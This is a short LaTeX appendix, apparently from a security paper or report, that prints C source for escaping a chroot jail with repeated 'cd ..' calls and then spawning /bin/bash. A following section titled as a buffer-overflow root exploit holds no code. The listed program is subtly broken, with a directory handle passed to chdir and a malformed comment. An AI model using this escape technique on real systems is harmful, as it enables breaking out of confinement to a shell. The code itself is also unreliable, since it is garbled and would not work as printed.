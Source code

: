 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\newpage
\begin{appendices}
\section{\texttt{cd ..} out of \texttt{chroot} jail\label{app:chroot:cd}}
\begin{lstlisting}
#include <stdio.h>
#include <sys/types.h>
#include <dirent.h>
#include <errno.h>
#include <stdlib.h>

void print_current();

int main(int argc, char** argv) {
  int i;
  DIR *dir;
  print_current();
  puts("Chroot to /tmp\n");

  // Create jail
  if(chroot("/tmp") != 0) {
    printf("chroot to /tmp failure \n");
    exit(EXIT_FAILURE);
  }

  // Create dir
  dir = opendir("bin");


  if(chroot("/bin") != 0) {
    printf("chroot to /bin failure \n");
    exit(EXIT_FAILURE);
  }

  print_current();

  puts("Chdir to the hander\n");
  if(chdir(dir) != 0)
    printf("change directory to handler failure \n");

  print_current();

  for(i = 0; i < 1024; i++) {
    if(chdir("..") != 0) {
      printf("%d Unable to cd ..\n", i);
    }
  }

  print_current();

  / Chroot to  .
  if(chroot(".") != 0) {
    printf("chroot failure \n");
    exit(EXIT_FAILURE);
  }

  system("/bin/bash");

  return 0;
}

void print_current() {
  char buffer[100];

  getcwd (buffer, 50);
  printf("Current Directory: %s\n", buffer);
  return;
}
\end{lstlisting}


\section{Buffer overflow exploits\label{app:bof:exploit1}}
\lstset{
	captionpos=b,
	frame=single,
	language=C,
	breaklines=true,
	caption=Exploit for getting root with zsh,
	label=bof:exploit1
}
\begin{lstlisting}
/* exploit.c  */


\end{lstlisting}
\end{appendices}
\end{document}
